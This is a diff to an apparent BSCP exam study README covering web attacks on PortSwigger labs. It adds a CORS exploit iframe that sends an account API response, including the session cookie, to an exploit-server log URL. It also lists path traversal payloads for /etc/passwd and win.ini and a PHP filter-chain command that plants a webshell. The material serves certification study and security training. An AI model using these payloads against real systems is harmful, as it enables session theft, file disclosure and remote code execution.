

BSCP Exam
BSCP Exam

diff --git a/README.md b/README.md
@@ -478,7 +478,24 @@ location = 'https://TARGET.net/?search=%3Cxss+id%3Dx+onfocus%3Ddocument.location
 
 ### Reflected String XSS  
 
->Submitting a search string and reviewing the `source code` of the search result page, the JavaScript string variable is ***identified*** to reflect the search string in the code variable named ```searchTerms```.  
+>Submitting a search string and reviewing the `source code` of the search result page, the JavaScript string variable is ***identified*** to reflect the search string ```tracjer.gif``` in the `source code` variable named ```searchTerms```.  
+
+```html
+<section class=blog-header>
+<h1>0 search results for 'fuzzer'</h1>
+<hr>
+</section>
+<section class=search>
+	<form action=/ method=GET>
+		<input type=text placeholder='Search the blog...' name=term>
+		<button type=submit class=button>Search</button>
+    </form>
+    </section>
+	<script>
+    var searchTerms = 'fuzzer';
+    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
+</script>
+```  
 
 ![JavaScript string with single quote and backslash escaped](images/javascript-string-reflection.png)  
 
@@ -1905,7 +1922,7 @@ X-Original-URL: /admin
   
 ## CORS  
 
->***Identify*** in the `source code` the account details are requested with AJAX request.  
+>***Identify*** in the `source code` the account details are requested with AJAX request and it contains the user session cookie in the response.  
 
 ![cors-ajax-request.png](images/cors-ajax-request.png)  
 
@@ -1929,6 +1946,21 @@ Origin: http://subdomain.TARGET.NET
 
 [PortSwigger Lab: CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)  
   
+>Payload that may work in BSCP exam on getting the administrator account api and session cookie logged on exploit server.  
+
+```html
+<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
+    var req = new XMLHttpRequest();
+    req.onload = reqListener;
+    req.open('get','https://0aee0024034c6237c3e99284006a0002.web-security-academy.net/account_api/?UnixTimestamp=1679134272000',true);
+    req.withCredentials = true;
+    req.send();
+    function reqListener() {
+        location='https://exploit-0a9e009703e062d9c365914c01700065.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
+    };
+</script>"></iframe>
+```  
+
 # Data Exfiltration  
 
 ## XXE Injections  
@@ -2478,8 +2510,9 @@ wrtz{{#with "s" as |string|}}
 3. Using URL-encoded ```..%252f..%252f..%252fetc/passwd``` payload can bypass application security controls.  
 4. Leading the beginning of the filename referenced with the original path and then appending ```/var/www/images/../../../etc/passwd``` payload at end bypasses the protection.  
 5. Using a **null** byte character at end plus an image extension to fool APP controls that an image is requested, this ```../../../etc/passwd%00.png``` payload succeed.  
-6. Windows OS accept both ```../``` and ```..\``` for directory traversal syntax, and as example retrieving ```/loadImage?filename=..\..\..\windows\win.ini``` on windows target to ***identify*** valid path traversal.  
-7. PHP Wrapper filter vulnerability allow traversal bypass to result in remote code execution (RCE) critical. Using [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) to get your RCE without uploading a file if you control entirely the parameter passed to a require or an include in PHP! See [Tib3rius YouTube demo](https://youtu.be/OGjpTT6xiFI?t=1019) ```python php_filter_chain.generator.py --chain '<?=`$_GET[0]`; ?>' | tail -n 1 | urlencode``` 
+6. Double URL encode file path traversal, as example this `../../../../../../../../../../etc/hostname` will be URL double encoded as, `%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fhostname`.  
+7. Windows OS accept both `../` and `..\` for directory traversal syntax, and as example retrieving `loadImage?filename=..\..\..\windows\win.ini` on windows target to ***identify*** valid path traversal.  
+8. PHP Wrapper filter vulnerability allow traversal bypass to result in remote code execution (RCE) critical. Using [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) to get your RCE without uploading a file if you control entirely the parameter passed to a require or an include in PHP! See [Tib3rius YouTube demo](https://youtu.be/OGjpTT6xiFI?t=1019) ```python php_filter_chain.generator.py --chain '<?=`$_GET[0]`; ?>' | tail -n 1 | urlencode``` 
   
 >Corresponding PortSwigger Directory traversal labs.  
 
@@ -2491,6 +2524,8 @@ wrtz{{#with "s" as |string|}}
 
 ![file-path-traversal-null-byte.png](images/file-path-traversal-null-byte.png)   
 
+>BSCP Exam challenge ***identified***, after obtaining admin session access, you can read `/etc/passwd` and `/etc/hostname` but as soon using same bypass file path traversal technique, the `home/carlos/secret` give response `403 Forbidden`.  
+   
 ### Admin Portal Files  
 
 >On the admin portal ***identify*** that the images are loaded using **imagefile=** parameter. Test if vulnerable to directory traversal. The imagefile parameter is vulnerable to directory traversal path attacks, enabling read access to arbitrary files on the server.  
